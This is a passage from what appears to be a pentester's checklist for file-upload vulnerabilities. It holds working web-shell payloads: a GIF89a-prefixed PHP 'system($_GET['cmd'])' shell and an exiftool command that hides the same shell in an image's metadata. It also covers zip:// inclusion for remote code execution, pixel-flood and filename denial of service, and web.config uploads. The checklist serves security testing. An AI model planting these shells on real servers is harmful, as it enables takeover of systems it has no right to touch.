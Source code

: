             ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```

- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
- https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/File-Upload.pdf
- https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/Slides(1).pdf
